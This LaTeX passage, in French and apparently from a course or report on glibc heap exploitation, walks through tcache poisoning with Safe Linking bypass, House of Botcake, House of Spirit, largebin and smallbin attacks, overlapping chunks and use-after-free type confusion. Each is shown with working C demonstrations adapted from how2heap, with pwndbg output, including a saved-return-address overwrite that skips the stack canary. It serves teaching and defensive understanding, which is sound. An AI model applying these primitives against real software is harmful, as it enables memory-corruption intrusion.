            cipher/.style={fill=blue!5},
            key/.style={fill=yellow!10},
            arrow/.style={-Stealth, thick},
            cascade/.style={-Stealth, red!80!black, dashed, line width=0.8pt},
            separator/.style={gray!30, dashed, line width=0.5pt},
            label/.style={font=\sffamily\scriptsize\bfseries}
        ]

        % --- LABELS DE L'INDICE i (AU TOP) ---
        \node[font=\sffamily\small\bfseries, gray] at (0, 1.2) {$i=1$};
        \node[font=\sffamily\small\bfseries, gray] at (3.5, 1.2) {$i=2$};
        \node[font=\sffamily\small\bfseries, gray] at (7.8, 1.2) {$i=5$ (Final)};

        % --- COLONNES ---
        % i=1 : Le masque est nul car L >> 12 sur les 12 bits de tête est 0
        \node[bitbox, cipher] (C1) at (0, 0) {$P_{63:52} \oplus 0$};
        \node[draw, circle, inner sep=1pt, fill=white, font=\small] (xor1) at (0, -1.2) {$\oplus$};
        \node[bitbox, mask, left=0.6cm of xor1] (M1) {00\dots00};
        \node[bitbox, plain] (P1) at (0, -2.4) {$P_{63:52}$};

        % i=2 : Le masque est le segment précédent déchiffré
        \node[bitbox, cipher] (C2) at (3.5, 0) {$P_{51:40} \oplus P_{63:52}$};
        \node[draw, circle, inner sep=1pt, fill=white, font=\small] (xor2) at (3.5, -1.2) {$\oplus$};
        \node[bitbox, key, left=0.6cm of xor2] (M2) {$Key_{2}$};
        \node[bitbox, plain] (P2) at (3.5, -2.4) {$P_{51:40}$};

        % i=5 : Round final
        \node[bitbox, cipher] (C5) at (7.8, 0) {$P_{15:0} \oplus P_{27:16}$};
        \node[draw, circle, inner sep=1pt, fill=white, font=\small] (xor5) at (7.8, -1.2) {$\oplus$};
        \node[bitbox, key, left=0.6cm of xor5] (M5) {$Key_{5}$};
        \node[bitbox, plain] (P5) at (7.8, -2.4) {$P_{15:0}$};

        % --- CONNECTEURS NOIRS ---
        \foreach \i in {1,2,5} {
                \draw[arrow] (C\i.south) -- (xor\i.north);
                \draw[arrow] (xor\i.south) -- (P\i.north);
                \draw[arrow] (M\i.east) -- (xor\i.west);
            }

        % --- CASCADE (Seulement la flèche de gauche) ---
        \draw[cascade] (P1.east) -| (M2.south)
        node[pos=0.2, above, font=\tiny, text=red!80!black] {$\gg 12$};

        % --- ESTHÉTIQUE & LABELS ---
        \draw[separator] (1.75, 1.4) -- (1.75, -3.2);
        \draw[separator] (6.5, 1.4) -- (6.5, -3.2);

        \node at (5.2, 0) {\dots}; \node at (5.2, -1.2) {\dots}; \node at (5.2, -2.4) {\dots};

        \node[label, left=0cm of M1] {Key};
        \node[label, left=0.8cm of C1] {C (Cipher)};
        \node[label, left=0.8cm of P1] {P (Plain)};

    \end{tikzpicture}
    \caption{Processus itératif de déchiffrement}
    \label{fig:decrypt_safelinking}
\end{figure}

\paragraph{Nécessité d'une fuite mémoire}
L'efficacité du \textit{Safe Linking} repose sur l'hypothèse que l'attaquant ne connaît pas le masque $L \gg 12$. Par conséquent, l'exploitation nécessite désormais une fuite mémoire pour :
\begin{enumerate}
    \item Récupérer un \textit{cipher} $C$ stocké en mémoire.
    \item Inverser l'algorithme pour retrouver $P$ et, par extension, l'entropie de l'ASLR du tas.
\end{enumerate}

\subsubsection{Tcache Poisoning}

\noindent\textbf{Fichier de Référence:} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/tcache_poisoning.c}{\texttt{tcache\_poisoning.c}}

\paragraph{Vue d'ensemble:}
Le \textit{Tcache Poisoning} est l'attaque de base sur les tas (heaps) modernes. Elle ressemble beaucoup à la corruption de Fastbin. Le but est de piéger \texttt{malloc} pour qu'il nous alloue une zone mémoire de notre choix, comme la pile (stack). Le Tcache est une liste simple (LIFO) conçue pour la vitesse au détriment de la sécurité. C'est donc la cible parfaite pour obtenir un accès en écriture n'importe où en mémoire.

\paragraph{Fonctionnement de l'attaque:}
L'attaque utilise généralement une faille de type \textit{Use-After-Free} (UAF) pour écraser
le pointeur \texttt{fd} d'un chunk dans le Tcache pour qu'il pointe sur la pile.
Aujourd'hui, on ne peut plus y écrire directement notre adresse cible en clair.
Cette adresse cible doit être correctement alignée en mémoire, et l'attaquant doit la masquer en
la combinant avec l'adresse physique du chunk.
Ce pointeur trafiqué se calcule avec un décalage de bits (bitshift) et un XOR :
$$Pointeur\_Masque = (Emplacement\_Pointeur \gg 12) \oplus Adresse\_Cible$$

\paragraph{Démonstration par le code:}

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main() {
    // 1. Définition d'une cible sur la pile (stack)
    size_t stack_var[0x10];
    size_t *target = NULL;
    
    // Cherche une adresse sur la pile correctement alingée pour le tcache
    for(int i=0; i<0x10; i++) {
        if(((long)&stack_var[i] & 0xf) == 0) {
            target = &stack_var[i];
            break;
        }
    }
    assert(target != NULL);

    // 2. Allocation et libération pour peupler le Tcache
    intptr_t *a = malloc(128);
    intptr_t *b = malloc(128);
    free(a);
    free(b);
    // Le Tcache est maintenant : B -> A

    // 3. Vulnérabilité : UAF et contournement du Safe Linking
    // L'opération suppose que l'adresse de b est connue
    b[0] = (intptr_t)((long)target ^ (long)b >> 12);
    // Le Tcache est maintenant : B -> target (voir bins ci-dessous)

    // 4. Exploitation : Détournement de l'allocateur
    malloc(128); // Le 1er malloc retourne B

    // Le Tcache est maintenant : target
    intptr_t *c = malloc(128); // Le 2ème malloc retourne directement notre cible

    assert((long)target == (long)c);
    return 0;
}
\end{minted}

\begin{pwndbg}[bins]{text}
    tcachebins
    0x90 [  2]: 0x5555555593a0 !\textcolor{pwndbgblue}{—>}! 0x7fffffffd470 {stack_var} !\textcolor{pwndbgred}{<-}! 0x7fe7ffffd
    fastbins
    empty
    unsortedbin
    empty
    smallbins
    empty
    largebins
    empty
\end{pwndbg}

\paragraph{Interprétation de la corruption (Flèche rouge) :}
Dans la sortie \texttt{pwndbg} ci-dessus, la flèche rouge \textcolor{pwndbgred}{<-} signale une rupture de la liste chaînée. L'outil d'analyse tente de lire le pointeur \texttt{fd} suivant à l'adresse de notre cible sur la pile, mais n'y trouve que des données résiduelles invalides (ici \texttt{0x7fe7ffffd}).

Ce comportement est totalement normal et confirme le succès de l'empoisonnement. Le Tcache est bien détourné vers notre cible. L'intégrité du reste de la liste n'a aucune importance, car l'attaquant n'a besoin que de deux appels à \texttt{malloc()}.

\paragraph{L'évolution des Mitigations (GLIBC Récentes):}
L'exploitation du Tcache s'est complexifiée suite à plusieurs correctifs majeurs de la GLIBC qui bloquent les anciennes méthodes d'écrasement direct :
\begin{enumerate}
    \item \textbf{Safe Linking (GLIBC 2.32+) :} Suite au \href{https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=a1a486d70ebcc47a686ff5846875eacad0940e41}{patch introduisant cette protection}, une fuite d'adresse du tas (\textit{heap leak}) est indispensable pour réaliser l'empoisonnement du Tcache. L'attaque aveugle est mathématiquement impossible.
    \item \textbf{Alignement Strict (GLIBC 2.32+) :} Ce \href{https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=a1a486d70ebcc47a686ff5846875eacad0940e41}{même patch} assure également que le chunk renvoyé par le Tcache est correctement aligné. L'attaquant ne peut plus cibler des adresses désalignées en mémoire.
\end{enumerate}

\subsubsection{House of Botcake \& Extensions du Tcache Poisoning}

\noindent\textbf{Fichier de Référence:} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_botcake.c}{\texttt{house\_of\_botcake.c}}\\
\noindent\textbf{Voir aussi :} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/tcache_metadata_poisoning.c}{\texttt{tcache\_metadata\_poisoning.c}} (ciblant \texttt{tcache\_perthread\_struct})

\paragraph{Concept :}
La \textit{House of Botcake} est une puissante extension du \textit{Tcache Poisoning}. Elle permet d'achever un empoisonnement en contournant les sécurités de \textit{double-free} du Tcache. L'idée centrale est de forcer un même chunk à être présent simultanément dans la liste du Tcache et dans l'Unsorted Bin, via le mécanisme de consolidation.

\paragraph{Mécanisme de l'extension :}
Pour réaliser ce Tcache Poisoning avancé, l'attaque procède ainsi :
\begin{enumerate}
    \item \textbf{Activation :} On remplit le Tcache (7 chunks) pour rediriger les libérations vers l'Unsorted Bin.
    \item \textbf{Consolidation :} Deux chunks consécutifs sont libérés, fusionnant dans l'Unsorted Bin.
    \item \textbf{Double libération furtive :} Après avoir consommé un élément du Tcache (libérant ainsi une place), l'un des chunks fusionnés est de nouveau libéré. L'allocateur l'enregistre dans le Tcache sans vérifier sa présence interne dans le chunk géant consolidé.
\end{enumerate}

\paragraph{Exploitation via Tcache Poisoning :}
L'attaquant contrôle maintenant un chunk aliasé. En réallouant le chunk depuis l'Unsorted Bin, il dispose d'un accès en écriture direct sur le chunk présent dans la file du Tcache. Il peut alors altérer son pointeur \texttt{next} (en tenant compte du \textit{Safe Linking}) pour pointer vers n'importe quelle adresse ciblée. Ce chevauchement réactive ainsi la compromission standard du \textit{Tcache Poisoning}. \textit{Notez qu'il est également possible de corrompre directement les métadonnées de l'allocateur pour altérer le Tcache, comme l'illustre la technique \texttt{tcache\_metadata\_poisoning}.}


\subsubsection{Tcache House of Spirit}

\noindent\textbf{Fichier de Référence:} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/tcache_house_of_spirit.c}{\texttt{tcache\_house\_of\_spirit.c}}\\
\noindent\textbf{Voir aussi :} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_spirit.c}{\texttt{house\_of\_spirit.c}} (pour la version sur Fastbins)

\paragraph{Vue d'ensemble:}
L'attaque \textit{House of Spirit} sur le Tcache est une technique qui consiste à forger un faux chunk dans une zone mémoire contrôlable (comme la pile ou le segment BSS) puis à inciter le programme à libérer un pointeur vers cette zone. Lors de la prochaine allocation, \texttt{malloc} nous retournera ce faux chunk. Par rapport à l'attaque classique sur les Fastbins, la version Tcache est beaucoup moins restrictive : il n'est pas nécessaire de forger le chunk suivant pour tromper les vérifications de taille.

\paragraph{Fonctionnement de l'attaque:}
L'attaquant prépare d'abord un faux chunk en définissant simplement son champ \texttt{size} pour qu'il corresponde à la catégorie visée dans le Tcache (généralement $\leq$ \texttt{0x410}). L'adresse du faux chunk doit être correctement alignée sur 16 octets. Ensuite, si le programme possède une vulnérabilité permettant de manipuler un pointeur qui sera soumis à \texttt{free()}, l'attaquant remplace ce pointeur par l'adresse de la zone de données du faux chunk. Lorsque \texttt{free()} est appelé, le faux chunk est inséré dans le Tcache, prêt à être récupéré via un appel \texttt{malloc()}.

\paragraph{Démonstration par le code:}

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    // 1. Initialisation de malloc
    malloc(1);

    // 2. Zone mémoire contrôlable par l'attaquant (ex: sur la pile)
    unsigned long long fake_chunks[10] __attribute__((aligned(0x10)));
    unsigned long long *a; // Pointeur qui sera manipulé

    // 3. Forger l'en-tête du faux chunk avec une taille valide (0x40)
    fake_chunks[1] = 0x40;

    // 4. Vulnérabilité : pointeur sur la zone utilisateur du fake chunk
    a = &fake_chunks[2];

    // 5. Libération du faux chunk (commande bins)
    free(a);

    // 6. Exploitation : l'allocateur nous retourne notre faux chunk sur la pile
    // (commande stack)
    void *b = malloc(0x30);

    assert((long)b == (long)&fake_chunks[2]);
    return 0;
}
\end{minted}

\begin{pwndbg}[bins]{text}
    tcachebins
    0x40 [  1]: 0x7fffffffd460 {fake_chunks+0x10} <- 0
\end{pwndbg}

\begin{pwndbg}[stack]{text}
    00:0000| rsp 0x7fffffffd440 {a} -> 0x7fffffffd460 {fake_chunks+0x10} <- 0x7fffffffd
    01:0008|-068 0x7fffffffd448 {b} -> 0x7fffffffd460 {fake_chunks+0x10} <- 0x7fffffffd
\end{pwndbg}

\paragraph{Interprétation de la corruption :}
Dans la sortie \texttt{pwndbg} \texttt{bins} ci-dessus, on peut observer qu'à la suite du \texttt{free(a)}, le pointeur en tête de la liste \texttt{tcachebins} pour la taille \texttt{0x40} pointe directement sur l'adresse de notre tableau \texttt{fake\_chunks} (situé sur la pile). Contrairement aux attaques sur les Fastbins, aucune vérification d'intégrité (comme la présence d'un \texttt{next\_chunk}) n'est effectuée durant l'insertion.
De plus, la vue \texttt{stack} démontre clairement que l'allocateur, suite à l'appel \texttt{malloc(0x30)}, nous a effectivement retourné notre faux chunk situé sur la pile (la variable \texttt{b} pointe au même endroit que \texttt{a}).



\subsubsection{Largebin Attack}

\noindent\textbf{Fichier de Référence :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/large_bin_attack.c}{\texttt{large\_bin\_attack.c}}

\noindent\textbf{Techniques similaires :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_tangerine.c}{\texttt{house\_of\_tangerine.c}},
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_water.c}{\texttt{house\_of\_water.c}}

\paragraph{Hypothèse :} Largebin, Use-After-Free, Heap Feng Shui.

\paragraph{Inconvénient :} On ne peut modifier la cible qu’avec des valeurs d’adresse.\\
Technique patchée à partir de la version 2.42 (\href{https://patchwork.sourceware.org/project/glibc/patch/20250214053454.2346370-1-benjamin.p.kallus.gr@dartmouth.edu/}{patch}).

L'idée de cette technique est de modifier la valeur d'une variable.
Pour ce faire, on utilise un bug de type use-after-free afin de substituer un pointeur
des métadonnées vers notre cible.
L’objectif final est de faire en sorte que le mécanisme interne de gestion des large bins
écrive une adresse contrôlée à un emplacement arbitraire.

Le code est le suivant :

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
int main()
{
    /* Disable IO buffering to prevent stream from interfering with heap */
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    size_t target = 0;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);

    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);

    free(p1);
    size_t *g3 = malloc(0x438);

    free(p2);

    /* Overwrite metadata pointer */
    p1[3] = (size_t)((&target) - 4);

    size_t *g4 = malloc(0x438);

    assert((size_t)(p2 - 2) == target);

    return 0;
}
\end{minted}

Le code se décompose en deux phases :
\begin{itemize}
    \item remplissage de la heap ;
    \item manipulation de l'emplacement des chunks ;
\end{itemize}

\textbf{Remplissage :}

Dans un premier temps, on alloue deux chunks destinés au large bin avec deux gardes
pour empêcher la consolidation.
Ce qui permet de contrôler précisément leur placement dans les bins.

\begin{pwndbg}[heap]{text}
    Allocated chunk - PREV_INUSE
    Addr: !\textcolor{pwndbgred}{0x555555559290}!
    Size: 0x430 (with flag bits: 0x431)

    Allocated chunk - PREV_INUSE
    Addr: !\textcolor{pwndbgblue}{0x5555555596e0}!
    Size: 0x420 (with flag bits: 0x421)
\end{pwndbg}

\begin{pwndbg}[p \&target]{text}

    &target = (size_t *) 0x7fffffffd800

\end{pwndbg}

\textbf{Manipulation des emplacements :}

Lorsque l'on libère \texttt{p1}, il va dans l'unsorted bin. Pour déclencher le tri,
il faut allouer un chunk plus grand que lui (g3).

Une fois \texttt{p1} rangé, on libère \texttt{p2}, qui se retrouve alors dans l'unsorted bin.
Comme \texttt{p2} est légèrement plus petit que \texttt{p1}, il sera placé dans le même large bin
mais après comparaison de taille, ce qui déclenche la mise à jour des pointeurs
\texttt{fd\_nextsize} et \texttt{bk\_nextsize}.

C'est à ce moment que tout se joue, le pointeur \texttt{p1[3]} pointe le champ \texttt{bk\_nextsize}.
Ainsi, on remplace le champs \texttt{bk\_nextsize} de \texttt{p1}
par l’adresse \texttt{target - 0x20}.

Lors de l'insertion de \texttt{p2} dans le large bin, glibc veut mettre à jour
le champ \texttt{fd\_nextsize} du chunk qui est pointé par \texttt{bk\_nextsize}(mise à jour d’une liste chaînée),
et comme \texttt{bk\_nextsize} pointe sur le début du chunk, il a besoin d'avancer
au‑delà de \texttt{prev\_size}, \texttt{size}, \texttt{fd} et \texttt{bk},
ce qui fait 32~octets.
D'où le \texttt{0x20} qui est retiré à l'adresse de \texttt{target}.

Ainsi, pour que l’écriture de glibc tombe exactement sur \texttt{target}, il faut que \texttt{bk\_nextsize} contienne l’adresse \texttt{target - 0x20}.
Lors de la mise à jour, glibc écrit à :


\[
    (\text{pointeur falsifié}) + 0x20 = \texttt{target}
\]


L'adresse de \texttt{target - 0x20} = \textcolor{pwndbgbrown}{\texttt{0x7fffffffd7e0}}


\paragraph{État de p1 avant le tri de p2 :}
\begin{pwndbg}[heap]{text}
    Free chunk (largebins) -- PREV_INUSE
    Addr: !\textcolor{pwndbgred}{p1}!
    Size: 0x430 (with flag bits: 0x431)
    fd: !\textcolor{pwndbgpurple}{arena}!
    bk: !\textcolor{pwndbgpurple}{arena}!
    fd_nextsize: !\textcolor{pwndbgred}{p1}!
    bk_nextsize: !\textcolor{pwndbgbrown}{target - 0x20}!
\end{pwndbg}

\paragraph{État de p1 et p2 après le tri :}
\begin{pwndbg}[heap]{text}
    Free chunk (largebins) -- PREV_INUSE
    Addr: !\textcolor{pwndbgred}{p1}!
    Size: 0x430 (with flag bits: 0x431)
    fd: !\textcolor{pwndbgblue}{p2}!
    bk: !\textcolor{pwndbgpurple}{arena}!
    fd_nextsize: !\textcolor{pwndbgred}{p1}!
    bk_nextsize: !\textcolor{pwndbgblue}{p2}!


    Free chunk (largebins) -- PREV_INUSE
    Addr: !\textcolor{pwndbgblue}{p2}!
    Size: 0x420 (with flag bits: 0x421)
    fd: !\textcolor{pwndbgpurple}{arena}!
    bk: !\textcolor{pwndbgred}{p1}!
    fd_nextsize: !\textcolor{pwndbgred}{p1}!
    bk_nextsize: !\textcolor{pwndbgbrown}{target - 0x20}!
\end{pwndbg}


Une fois le tri de p2 effectué, l’adresse de p2 est écrite dans target.
Toutes ces manipulations visant à réussir à écrire p2 à cet emplacement
relèvent du heap feng shui.
Si l’on souhaite que l’adresse de p2 soit une adresse spécifique,
il suffit alors de manipuler les tailles des chunks et de connaître
l’adresse minimale possible (le début du heap).


\subsubsection{Smallbin Attack}

\noindent\textbf{Fichier de Référence :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_lore.c}{\texttt{house\_of\_lore.c}}

\noindent\textbf{Techniques similaires :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/unsafe_unlink.c}{\texttt{unsafe\_unlink.c}},
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/overlapping_chunks.c}{\texttt{overlapping\_chunks.c}}

\noindent\textbf{Hypothèse :} small bin, use-after-free, corruption de pointeurs.

\noindent\textbf{Inconvénient :} on ne peut modifier la cible qu’avec des valeurs d’adresse.

Le principe de cette technique consiste à forger un faux chunk situé en dehors de la heap
(ici sur la pile) et à corrompre les pointeurs \texttt{fd} et \texttt{bk} d’un chunk
smallbin afin de forcer \texttt{malloc()} à retourner ce chunk forgé.


\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
void jackpot()
{
    fprintf(stderr, "I'm the boss\n");
    exit(0);
}

int main()
{
       intptr_t *stack_buffer_1[4] = {0};
       intptr_t *stack_buffer_2[4] = {0};
       void *fake_freelist[7][4];

       intptr_t *victim = malloc(0x100);

       void *dummies[7];
       for (int i = 0; i < 7; i++)
              dummies[i] = malloc(0x100);

       intptr_t *victim_chunk = victim - 2;

       for (int i = 0; i < 6; i++)
       {
              fake_freelist[i][3] = fake_freelist[i + 1];
       }
       fake_freelist[6][3] = NULL;

       stack_buffer_1[0] = 0;
       stack_buffer_1[1] = 0;
       stack_buffer_1[2] = victim_chunk;

       stack_buffer_1[3] = (intptr_t *)stack_buffer_2;
       stack_buffer_2[2] = (intptr_t *)stack_buffer_1;

       stack_buffer_2[3] = (intptr_t *)fake_freelist[0];

       void *p5 = malloc(1000);

       for (int i = 0; i < 7; i++)
              free(dummies[i]);
       free((void *)victim);

       void *p2 = malloc(1200);

       //------------VULNERABILITY-----------

       victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

       //------------------------------------
       for (int i = 0; i < 7; i++)
              malloc(0x100);

       void *p3 = malloc(0x100);

       char *p4 = malloc(0x100);

       intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode

        long truc = (long)__builtin_frame_address(0);
       long offset = (long)__builtin_frame_address(0) - (long)p4;

       // This bypasses stack-smash detection since it jumps over the canary
       memcpy((p4 + offset + 8), &sc, 8);

       // sanity check
       assert((long)__builtin_return_address(0) == (long)jackpot);
}
\end{minted}


Cette démonstration se fait en deux parties.

La première consiste à construire un faux chunk sur la pile sans déclencher d'erreur ;
la seconde porte sur la redirection du flux d'exécution.

\textbf{Chunk dans la stack :}

Le chunk que nous allons créer appartient à la catégorie des smallbins.
L’objectif est de corrompre la liste doublement chaînée du smallbin afin
de la faire pointer vers un chunk contrôlé.

Pour cela, nous préparons deux chunks, \texttt{stack\_buffer\_1} (notre chunk
fabriqué) et \texttt{stack\_buffer\_2} (cohérence), ainsi que la liste
\texttt{fake\_freelist}, qui permettent de préserver la cohérence interne
de la structure des smallbins.

Pour pouvoir manipuler un chunk dans le smallbin, il faut d’abord saturer
le tcache. Le chunk qui nous servira de point d’entrée dans le smallbin est
\texttt{victim}, plus précisément \texttt{victim\_chunk}, qui commence au
niveau des métadonnées de \texttt{victim}.

Une fois nos huit chunks alloués et la liste chaînée préparée, nous
construisons notre faux chunk en plaçant son champ \texttt{fd} sur
\texttt{victim\_chunk}. L’idée est de faire en sorte que \texttt{stack\_buffer}
soit inséré juste après \texttt{victim\_chunk} dans le smallbin. Son champ
\texttt{bk} est quant à lui orienté vers notre second faux chunk.

Pour maintenir la cohérence de la structure, nous faisons ensuite pointer
le champ \texttt{fd} de \texttt{stack\_buffer\_2} vers \texttt{stack\_buffer\_1},
et son champ \texttt{bk} vers notre liste chaînée.

Une fois ces préparatifs terminés, nous plaçons un gardien destiné à
empêcher la consolidation avec le top chunk.\\
Pour finaliser l’opération, nous insérons \texttt{victim} dans le smallbin
en libérant les chunks qui saturent le tcache, puis en libérant notre chunk
\texttt{victim} afin qu’il soit rangé dans le smallbin.

C’est à ce moment que notre corruption du smallbin intervient, nous
modifions le champ \texttt{bk} pour qu’il pointe vers notre faux chunk.
Nous obtenons alors :



\[
       \text{fd : } \text{victim} \;\rightarrow\; \text{stack\_buffer\_1} \;\rightarrow\;
       \text{stack\_buffer\_2} \;\rightarrow\; \text{fake\_freelist}
\]





\[
       \text{bk : } \text{victim} \;\leftarrow\; \text{stack\_buffer\_1} \;\leftarrow\;
       \text{stack\_buffer\_2} \;\leftarrow\; \text{fake\_freelist}
\]



Il ne reste plus qu’à récupérer tous les chunks présents dans le tcache et
dans le smallbin pour compléter la technique.



\textbf{Redirection du programme :}

Pour rediriger le programme, on fait un calcul relatif depuis le chunk contrôlé (p4)
pour écraser la valeur du saved RIP dans la stack et ainsi faire diverger le flux
d'exécution.


La fonction \texttt{\_\_builtin\_frame\_address(0)} retourne l’adresse du registre
\texttt{rbp}, qui correspond au début de la frame courante.

\begin{pwndbg}[heap]{text}
       pwndbg> p \$rbp
       \$8 = (void *) 0x7fffffffd840
       pwndbg> p p4
       \$9 = 0x7fffffffd7e0 "=("
       pwndbg> p 0x7fffffffd840 - 0x7fffffffd7e0
       \$10 = 96
       pwndbg> p offset
       \$11 = 96
\end{pwndbg}

\subsection{Altération Structurelle : Consolidation et Chevauchement}

La prédictibilité de l’allocateur permet de remodeler la géométrie du tas.
En manipulant les métadonnées des chunks, on peut forcer \texttt{malloc} à
consolider ou allouer la mémoire d’une manière non prévue. Lorsqu’elle est
déclenchée sur des métadonnées corrompues, la consolidation (forward ou
backward) devient un vecteur de corruption structurelle.
Elle peut englober des chunks encore utilisés dans des zones considérées comme libres par
l’allocateur.


\subsubsection{Overlapping Chunks}

\noindent\textbf{Fichier de Référence :} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/overlapping_chunks.c}{\texttt{overlapping\_chunks.c}}

\paragraph{Vue d'ensemble :}
L’overlapping de chunks repose sur la corruption du champ \texttt{size} d’un chunk,
généralement via un heap overflow. En augmentant artificiellement cette taille,
le chunk s’étend et englobe un ou plusieurs chunks adjacents pourtant déjà alloués.
Lors de sa libération ou de sa réallocation, ce chunk étendu crée alors un
chevauchement.
Plusieurs pointeurs distincts se retrouvent à référencer une
même zone mémoire, chacun avec une vue différente (par exemple des structures
logiques indépendantes).

\paragraph{Fonctionnement de l'attaque :}
\begin{enumerate}
    \item \textbf{Allocation initiale :} L'attaquant alloue plusieurs chunks consécutifs (par exemple \texttt{p1}, \texttt{p2}, \texttt{p3}).
    \item \textbf{Corruption de la taille :} En utilisant une vulnérabilité (heap overflow) sur le premier chunk libre ou en débordant, il écrase les métadonnées de \texttt{p2} pour augmenter artificiellement sa taille, de façon à ce qu'elle englobe \texttt{p3}.
    \item \textbf{Libération et Réallocation :} Le chunk \texttt{p2} est libéré. L'allocateur (croyant que le chunk est plus grand) le place dans l'Unsorted Bin. Lors d'une nouvelle allocation de la taille corrompue, un nouveau chunk est retourné qui chevauche physiquement \texttt{p3}.
\end{enumerate}

\paragraph{Démonstration par le code :}

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

int main() {
    // 1. Allocation de 3 chunks consécutifs
    long *p1 = malloc(0x80 - 8);
    long *p2 = malloc(0x500 - 8);
    long *p3 = malloc(0x80 - 8);
    malloc(0x10); // Guard chunk

    memset(p1, '1', 0x80 - 8);
    memset(p2, '2', 0x500 - 8);
    memset(p3, '3', 0x80 - 8);
    
    // 2. Vulnérabilité : Overflow modifiant la taille de p2
    // On l'augmente à 0x581 pour englober p3 (0x500 + 0x80 | PREV_INUSE).
    *(p2 - 1) = 0x581; 

    // 3. Libération de p2 avec sa nouvelle taille corrompue
    free(p2);

    // 4. Réallocation couvrant la zone corrompue
    // p4 pointera sur l'ancienne adresse de p2 et englobera p3.
    long *p4 = malloc(0x580 - 8);

    // p4 et p3 se chevauchent (deux pointeurs sur la même zone).
    memset(p4, '4', 0x580 - 8);
    memset(p3, '3', 80);

    // Vérifie que les données écrites dans p3 se retrouvent bien dans p4
    assert(strstr((char *)p4, (char *)p3));
    
    return 0;
}
\end{minted}

\paragraph{Limitations et renforcement de la GLIBC :}
La technique a été mitigée par l'ajout de vérifications strictes d'intégrité lors de la manipulation des chunks. Actuellement, la GLIBC s'assure que le chunk suivant (calculé avec la nouvelle taille étendue) a bien son bit \texttt{PREV\_INUSE} ou correspond bien aux alignements prévus, et procède à des vérifications de correspondance entre la taille annoncée et le champ \texttt{prev\_size}. Créer les bonnes conditions demande de maîtriser la structure environnante de la mémoire.

\subsection{Exploitation au niveau applicatif}

\subsubsection{Use-After-Free et Type Confusion}

\paragraph{Vue d'ensemble:}
Face aux protections des métadonnées de la GLIBC (comme le \textit{Safe Linking}), corrompre directement l'allocateur est devenu complexe. Une alternative plus fiable consiste à ignorer les mécanismes internes de \texttt{malloc} pour cibler plutôt la logique interne de l'application via une confusion de type (\textit{Type Confusion}). Cette attaque est particulièrement puissante car elle détourne le comportement du programme lui-même sans avoir besoin d'interagir avec les métadonnées protégées de la GLIBC.

\paragraph{Fonctionnement de l'attaque:}
L'exploit le plus commun repose sur l'exploitation d'une vulnérabilité \textit{Use-After-Free}. La technique consiste à allouer une structure légitime, la libérer sans effacer son pointeur (créant ainsi un \textit{dangling pointer}), puis allouer une structure de taille identique mais de type différent. L'allocateur retournera l'ancien bloc mémoire. L'attaquant peut alors écrire des données arbitraires avec la seconde structure et détourner le flot d'exécution lorsque le programme tentera d'utiliser la première structure.

\paragraph{Démonstration par le code:}

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    void (*execute)();    // 8 octets
    char description[24]; // 24 octets (Total: 32 octets)
} task_t;

typedef struct {
    char content[32];     // Total: 32 octets
} message_t;

void win() {
    puts("Hijack réussi : Exécution de la fonction cible");
}

void lose() {
    puts("Exécution normale");
}

int main() {
    // 1. Allocation initiale
    task_t *task = malloc(sizeof(task_t));
    task->execute = lose;

    // 2. Libération et création d'un dangling pointer
    free(task);

    // 3. Réallocation et Type Confusion
    // Les deux structures font exactement la même taille (32 octets)
    // malloc va donc réutiliser le chunk qui vient d'être libéré
    message_t *msg = malloc(sizeof(message_t));

    // Injection du payload
    *(long *)msg->content = (long)win;

    // 4. Déclenchement (Trigger)
    task->execute(); 

    return 0;
}
\end{minted}

\paragraph{Interprétation de la corruption :}
\begin{enumerate}
    \item \textbf{Allocation initiale} : Un objet de type \texttt{task\_t} est alloué. Cette structure contient un pointeur de fonction \texttt{execute} initialisé sur \texttt{lose}.
    \item \textbf{Libération} : L'objet \texttt{task} est libéré avec \texttt{free}, mais son pointeur n'est pas mis à \texttt{NULL}.
    \item \textbf{Type Confusion} : Un nouvel objet de type \texttt{message\_t} est alloué. Les deux structures faisant la même taille (32 octets), \texttt{malloc} retourne l'ancien bloc mémoire contenant \texttt{task}. L'attaquant injecte l'adresse de la fonction \texttt{win} au début du buffer de \texttt{msg}.
    \item \textbf{Trigger} : Le programme tente d'exécuter la fonction pointée par \texttt{task->execute}. Comme le bloc mémoire a été écrasé par le contenu de la structure \texttt{message\_t}, c'est la fonction \texttt{win} qui se retrouve exécutée.
\end{enumerate}

\section{Perspectives : L'évolution de l'allocateur (GLIBC 2.42 \& 2.43)}
